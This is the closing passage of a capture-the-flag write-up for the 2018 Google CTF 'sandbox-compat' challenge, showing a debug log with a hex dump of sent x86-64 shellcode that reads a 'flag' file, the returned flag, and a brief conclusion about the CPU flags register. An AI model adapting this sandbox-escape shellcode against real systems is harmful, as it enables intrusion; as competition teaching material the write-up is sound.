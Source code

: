 ```  
[DEBUG] Sent 0x66 bytes:  
   00000000  48 b8 1e 00  00 00 01 00  00 00 48 8b  28 48 81 ed
│H···│····│··H·│(H··│  
   00000010  60 07 00 00  48 c7 c7 02  00 00 00 48  8d 35 3f 00
│`···│H···│···H│·5?·│  
   00000020  00 00 48 c7  c2 00 00 00  00 e8 31 00  00 00 48 c7
│··H·│····│··1·│··H·│  
   00000030  c7 00 00 00  00 48 89 c6  48 89 e2 48  c7 c1 00 01
│····│·H··│H··H│····│  
   00000040  00 00 e8 18  00 00 00 48  c7 c7 01 00  00 00 48 c7
│····│···H│····│··H·│  
   00000050  c6 01 00 00  00 48 89 e2  48 c7 c1 00  01 00 00 55
│····│·H··│H···│···U│  
   00000060  c3 66 6c 61  67 00                                  │·fla│g·│  
   00000066  
[DEBUG] Sent 0x8 bytes:  
   'deadbeef'  
[DEBUG] Received 0x17 bytes:  
   '[*] received 146 bytes\n'  
[DEBUG] Received 0x110 bytes:  
   00000000  5b 2a 5d 20  6c 65 74 27  73 20 67 6f  2e 2e 2e 0a  │[*] │let'│s
go│...·│  
   00000010  43 54 46 7b  48 65 6c 6c  30 5f 4e 34  43 6c 5f 49
│CTF{│Hell│0_N4│Cl_I│  
   00000020  73 73 75 65  5f 35 31 21  7d 0a 00 00  00 00 00 00
│ssue│_51!│}···│····│  
   00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
│····│····│····│····│  
   *  
   00000110  
[*] flag = "CTF{Hell0_N4Cl_Issue_51!}"  
[*] Closed connection to sandbox-compat.ctfcompetition.com port 1337  
```

## Conclusion

Overall very interesting challenge demonstrating one of the most obscure
features of basic CPU functionality that we almost always take for granted:
the `flags` register.  

Original writeup
(https://github.com/p4-team/ctf/blob/master/2018-06-23-google-
ctf/sandbox_compat/README.md).